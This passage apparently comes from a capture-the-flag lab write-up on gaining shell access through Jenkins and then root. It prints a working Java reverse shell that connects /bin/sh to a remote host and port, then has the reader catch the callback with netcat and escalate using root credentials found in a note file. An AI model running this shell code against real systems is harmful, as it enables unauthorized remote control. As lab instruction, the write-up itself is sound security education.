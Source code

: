 ```
String host="<ip_address>";
int port=8888;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Make sure to run `netcat` on your chosen port so that it can catch the callback:

![netcat callback](/assets/posts/20220122/23_netcat_callback.png)

We are now logged in as the `jenkins` user, but we need to be `root`.  So, we need to do more enumeration.  We found credentials in the `/opt` directory last time, so let's start there.  It turns out that there is a `note.txt` file within this folder containing credentials for the `root` user:

![root creds](/assets/posts/20220122/24_root_creds.png)

Now, we can use `su` to switch user over to `root` and retrieve the `root.txt` flag:

![root flag](/assets/posts/20220122/25_root_flag.png)
